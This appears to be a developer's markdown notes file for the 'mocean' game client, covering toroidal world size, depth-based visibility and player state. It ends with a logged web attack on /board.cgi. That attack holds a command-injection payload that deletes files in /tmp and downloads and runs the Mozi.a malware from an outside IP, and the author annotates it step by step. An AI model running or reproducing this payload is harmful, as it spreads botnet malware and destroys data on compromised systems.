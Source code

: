 # mocean Client

- accommodating different latencies
- join / quit
- torus let's say is 800 by 600 = torx, tory
- visibility circles will be a drag at the boundaries... unless -1 indices save the day
- depth: Let's say the photic zone has 0 at the surface, visibility = vrad = 32
    - 0 1 2 3 4 5 6 7 8 etc        32 28 24 20 16 12 8 4 1 = self only
- grid has a float version and an integer version that "lives" at 0.5, 0.5
- player state
    - x, y as float, modula torx, tory; quantized to tori, torj
    - depth (int)
    - name
    - energy
    - 
- lottery circles
    - centers (lc_torx, lc_tory) and radii lc_torr



## attack!

```
"GET /board.cgi?cmd=cd+/tmp;rm+-rf+*;wget+http://182.59.105.211:56191/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+varcron HTTP/1.0" 404 870
```

```
HTTP GET 
Paylod: /board.cgi? and tries to run:
      cmd = 
          cd /tmp
          rm -rf *
          wget http://182.59.105.211:56191/Mozi.a
          chmod 777 Mozi.a
          /tmp/Mozi.a varcron        (seems to imply /var/cron) 
 HTTP/1.0
 404 means not found; trailing '870' is ? timing ? 
 ```
